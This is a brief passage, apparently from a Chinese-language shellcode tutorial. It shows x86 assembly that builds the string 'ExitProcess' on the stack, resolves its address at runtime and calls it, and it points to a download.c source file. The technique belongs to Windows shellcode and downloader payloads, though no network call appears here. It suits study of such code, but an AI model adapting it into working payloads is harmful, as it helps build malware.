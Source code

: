 ```
pop ecx

xor edx,edx
push edx
push ecx

call eax
;-------------------------

add esp,8
```
* 结束进程
```
;-----------------------------

;finding address of ExitProcess()
xor ecx,ecx
push 0x41737365
mov [esp+3],byte cl
push 0x636f7250
push 0x74697845

push esp
push edi

call esi

;--------------
call eax


```
* 代码见code/download.c  
